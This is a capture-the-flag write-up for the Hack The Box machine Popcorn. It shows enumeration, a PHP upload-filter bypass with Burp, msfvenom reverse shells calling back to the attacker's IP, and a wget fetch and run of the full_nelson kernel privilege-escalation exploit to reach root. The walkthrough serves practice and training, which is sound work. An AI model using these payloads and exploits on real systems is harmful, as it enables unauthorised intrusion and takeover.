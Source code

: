 # Popcorn 10.10.10.6


- Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux

- file upload exploit (xx.php.png) JS filter *.png, use Burp to remove .png
- Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : https://www.exploit-db.com/exploits/15704 , Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.



## nmap
````
$ nmap -A 10.10.10.6
````
=> 80

## dirb -> bittornado
````
$ dirb http://10.10.10.6
http://10.10.10.6/torrent/
````

![](images/popcorn_torrent.png)

## Site exploit : file upload (xx.php.png)

We can Register an account

Upload a torrent
Submit a screenshot : need to upload a .png file
JS filter *.png
Intercept with Burp
Rename .php => .php.png 

Build a .php reverse shell
````
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.30 lport=4445 -f raw  > 123.php.png
````

Intercept the Post with Burp
Rename 123.php.png to 123.php
Meterpreter is uploaded... where ?

````
dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 
````
## Get meterpreter

Prepare a listener
````
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.30
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
````

## The same without meterpreter

```
# msfvenom -p php/reverse_php lhost=10.10.14.30 lport=4445 -f raw  > r_php.php.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

root@kali:~/htb/YoloToolbox/machines/htb/popcorn# nc -lvp 4445
listening on [any] 4445 ...
10.10.10.6: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.6] 58345

whoami
www-data

uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```
Le shell via php n'est pas terrible...
on ne recupere pas la main une fois l'exploit lancé


## Pric esc : full_nelson

=> Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
Exploit 3 CVE: CVE-2010-4258, CVE-2010-3849, CVE-2010-3850
Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.
````
https://www.exploit-db.com/exploits/15704
````


upload 15704.c
```
python -m SimpleHTTPServer
wget http://10.10.14.30:8000/15704.c
```

meterpreter> shell
````
gcc 15704.c -o exploit
chmod 755 exploit
./exploit
id
uid=0(firefart)
cat /root/root.txt
[*] Started reverse TCP handler on 10.10.14.30:4445 
[*] Sending stage (37775 bytes) to 10.10.10.6
[*] Meterpreter session 1 opened (10.10.14.30:4445 -> 10.10.10.6:49403) at 2019-09-03 23:16:29 +0200

meterpreter > shell
Process 2187 created.
Channel 0 created.

./exploit
id
uid=0(root) gid=0(root)

cat /home/george/user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx
cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx

````
 

